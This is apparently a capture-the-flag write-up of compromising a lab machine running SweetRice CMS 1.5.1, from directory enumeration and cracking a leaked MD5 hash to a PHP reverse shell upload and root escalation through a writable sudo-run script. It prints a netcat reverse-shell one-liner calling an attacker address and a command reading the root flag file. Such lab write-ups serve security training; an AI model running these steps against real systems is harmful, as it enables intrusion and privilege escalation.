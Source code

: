 # Enumeration

We begin with a quick nmap scan, which identifies ports 22 and 80 as open. A follow-up scan provides more detail:

![bd36944ebbc54f5292934fed71f910d9.png](./_resources/bd36944ebbc54f5292934fed71f910d9.png)

Let's enumerate the web server. The main page is just the default Apache2 Ubuntu page. We'll use gobuster to look for any interesting directories. Run the following:
```bash
gobuster dir -u http://10.10.160.235 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
```

We eventually find the directory `/content`. Navigating here, we find an under-construction webpage built with the SweetRice CMS.

![9695ef1047f779aaa93cc61a1d1cb4fd.png](./_resources/9695ef1047f779aaa93cc61a1d1cb4fd.png)

Running gobuster again relative to our new directory, we find a few subdirectories.

![3d4af8c99d6a5faa4fe2bca0669fd40b.png](./_resources/3d4af8c99d6a5faa4fe2bca0669fd40b.png)

We find a login form at `/content/as`. 

![23ba85c05d791f8790457d96516f3e89.png](./_resources/23ba85c05d791f8790457d96516f3e89.png)

Navigating to `/content/inc/latest.txt` reveals the version number of the CMS as 1.5.1. More interestingly, we have a backup file located at `/content/inc/mysql_backup/`, which reveals some sensitive information. If we look closely, we find something which appears to be a either a password or a hash.  A quick online search using a hash identifiers reveals that it is indeed an MD5 hash.

![e7ecbc99f4d3a539f6b54cd311ca5af5.png](./_resources/e7ecbc99f4d3a539f6b54cd311ca5af5.png)

Running the hash through an [online hash cracker](https://crackstation.net/) quickly gives us the password. We have a few candidates for the username given by the mysql backup file; cycling through them eventually reveals `manager` as the username associated to the password we found. Logging in greets us with a dashboard page.

![b3bb8b9246bcdb788ad35b9d7c5d7ef0.png](./_resources/b3bb8b9246bcdb788ad35b9d7c5d7ef0.png)

<br>

# Exploitation

Now that we have admin access to the CMS, we can begin looking for an exploit. Let's start by changing the website status so that it is running.

![e7e6c251343f07cf14db91ad37b9d930.png](./_resources/e7e6c251343f07cf14db91ad37b9d930.png)

Using the version info we found earlier, we can search for an exploit. We find a [possible exploit](https://packetstormsecurity.com/files/139521/SweetRice-1.5.1-Code-Execution.html) for code execution.

![638906506838811ba105d616d9e602ce.png](./_resources/638906506838811ba105d616d9e602ce.png)

Following the instructions given by the exploit, we navigate to the Ads section of the Dashboard. As described by the exploit, we are allowed to upload php files here. We can use this to launch a php reverse shell, such as [this one](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). We modify it and save it as `reverseshellphp`.

![25c919907120aa9a86c76712a4bddd0a.png](./_resources/25c919907120aa9a86c76712a4bddd0a.png)

![566cab73ef3b2a0be947bd7ae1093275.png](./_resources/566cab73ef3b2a0be947bd7ae1093275.png)

Now set up a netcat listener on the chosen port and navigate to `http://10.10.160.235/content/inc/ads/reverseshellphp.php`. The script executes, and we have obtained an initial shell.

![1a9e59b804887ed997dc639e246aa886.png](./_resources/1a9e59b804887ed997dc639e246aa886.png)

Upgrade the shell with `python -c 'import pty; pty.spawn("/bin/bash")'`. We find the `user.txt` flag in the `/home/itguy` directory.

![e1f8a59dc7efe23b0861c7392d45a863.png](./_resources/e1f8a59dc7efe23b0861c7392d45a863.png)

<br>

# Post-exploitation

Let's look for an avenue to escalate our privileges. Use `sudo -l` to list the current user's sudo privileges.

![5970ae152e07c58b1d0bf7d913a950d9.png](./_resources/5970ae152e07c58b1d0bf7d913a950d9.png)

Thus, the current user can run the perl script as sudo. Let's take a look at the contents of the `backup.pl` file.

![e6927d992d7863245389ddf7587696b9.png](./_resources/e6927d992d7863245389ddf7587696b9.png)

It seems like the backup script just runs the `copy.sh` file. Opening the contents of this latter file, we find a reverse shell script.

![d68f164a814883307a1d773e51c4d87d.png](./_resources/d68f164a814883307a1d773e51c4d87d.png)

Note that we have write privileges! Our goal is to edit this script by replacing it with a reverse shell pointing to our attacking machine, then run `backup.pl` as sudo. Since we don't seem to have access to a text editor, we'll have to rewrite the contents of the `copy.sh` file using `echo "<script>" > /etc/copy.sh`. Luckily, there is a curated [list](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) of reverse shell one-liners. I wasn't able to get some of them to work, but eventually I was able to use one of the netcat one-liners.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.30.43 8888 >/tmp/f" > /etc/copy.sh
```

(Here be sure to use a different port from the one used for the initial shell.) Now set up a netcat listener and catch the reverse shell using `sudo /usr/bin/perl /home/itguy/backup.pl`. Since the script is run as sudo, we end up catching a reverse shell with root privileges. From here, we easily locate the root flag.

![ea54184fddb6803cb66807d4f6726662.png](./_resources/ea54184fddb6803cb66807d4f6726662.png)

![6b7093dc327e20969a0cb6350fa07749.png](./_resources/6b7093dc327e20969a0cb6350fa07749.png)

There is an alternative way to obtain the root flag which doesn't involve obtaining a root shell. Since the `copy.sh` is writable by our initial user, we can simply replace its contents with a command that reads the `root.txt` file. (Here, of course, we have to guess the precise location of the root flag.) Going back to our initial shell, we use `echo "cat /root/root.txt" > /etc/copy.sh`. Then using `sudo /usr/bin/perl /home/itguy/backup.pl` prints the contents of the `root.txt` file. Pretty cool!